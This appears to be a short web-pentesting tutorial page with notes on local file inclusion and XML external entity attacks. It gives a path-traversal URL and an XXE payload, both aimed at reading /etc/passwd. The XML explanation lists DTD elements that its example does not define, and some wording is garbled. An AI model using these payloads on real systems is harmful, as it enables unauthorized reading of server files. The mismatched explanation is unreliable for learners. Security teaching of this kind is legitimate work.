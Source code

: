 ### LFI (local file inclusion)

If you see a parameter you can try LFI on it.
http://127.0.0.1/?file=page.php

We can not try view a file on the system.

http://127.0.0.1/?file=../../../../../../etc/passwd


### XXE (XML External Entity)

This abuses features of XML parser/Data.

Let's look at the structure.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE file SYSTEM "file.dtd">
<file>
    <to>moon</to>
    <from>cake</from>
    <heading>food</heading>
    <body>XXE attack</body>
</file> 
```
XML document starts with 

<?xml version="1.0" encoding="UTF-8"?> 

The next part is called the DTD (Document Type Definition)
This defines the elements and attributes.

- !DOCTYPE note -  Defines a root element of the document named note
- !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
- !ELEMENT to - Defines the to element to be of type "#PCDATA"
- !ELEMENT from - Defines the from element to be of type "#PCDATA"
- !ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
- !ELEMENT body - Defines the body element to be of type "#PCDATA"

We can abuse this to read a file on a system.
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
